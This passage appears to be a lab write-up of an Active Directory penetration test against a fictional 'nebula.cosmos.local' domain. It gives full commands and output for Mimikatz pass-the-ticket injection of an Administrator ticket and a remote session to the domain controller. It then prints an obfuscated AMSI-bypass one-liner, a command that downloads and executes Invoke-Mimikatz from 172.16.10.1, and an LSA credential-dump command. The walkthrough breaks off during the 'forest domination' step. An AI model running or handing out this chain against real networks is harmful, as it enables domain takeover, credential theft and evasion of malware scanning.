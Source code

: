 ### injecting ticket into LSASS

this ticket `[0:31da8d]-2-0-60a10000-Administrator@krbtgt-NEBULA.COSMOS.LOCAL.kirbi` can be injected into the LSASS by a ["pass-the-ticket"](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/pass-the-ticket) technique.


```sh
Invoke-Mimikatz -Command '"kerberos::ptt C:\users\devmanager\desktop\tickets\[0:31da8d]-2-0-60a10000-Administrator@krbtgt-NEBULA.COSMOS.LOCAL.kirbi"'
```

with the injected ticket, i established a PowerShell remote session to the Nebula Domain Controller:

```sh
$Sess = New-PSSession -ComputerName Nebula-DC.Nebula.Cosmos.Local
Enter-PSSession -Session $sess
```

```sh
PS C:\Users\devmanager\Desktop\tickets>
PS C:\Users\devmanager\Desktop\tickets>
PS C:\Users\devmanager\Desktop\tickets> Invoke-Mimikatz -Command '"kerberos::ptt C:\users\devmanager\desktop\tickets\[0;31da8d]-2-0-60a10000-Administrator@krbtgt-NEBULA.COSMOS.LOCAL.kirbi"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcosmos.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # kerberos::ptt C:\users\devmanager\desktop\tickets\[0;31da8d]-2-0-60a10000-Administrator@krbtgt-NEBULA.COSMOS.LOCAL.kirbi

* File: 'C:\users\devmanager\desktop\tickets\[0;31da8d]-2-0-60a10000-Administrator@krbtgt-NEBULA.COSMOS.LOCAL.kirbi': OK

PS C:\Users\devmanager\Desktop\tickets> $sess = New-PSSession -ComputerName nebula-dc.nebula.cosmos.local
PS C:\Users\devmanager\Desktop\tickets> Enter-PSSession -Session $sess
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> whoami
nebula\administrator
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> hostname
nebula-dc
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents>
```

i now have command execution on the domain controller.

## target 6

### forest domination


[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('b'+'lE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]("{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ("1Q2U"+"zX") -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> iex (iwr http://172.16.10.1/invoke-mimikatz.ps1 -usebasicparsing)
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'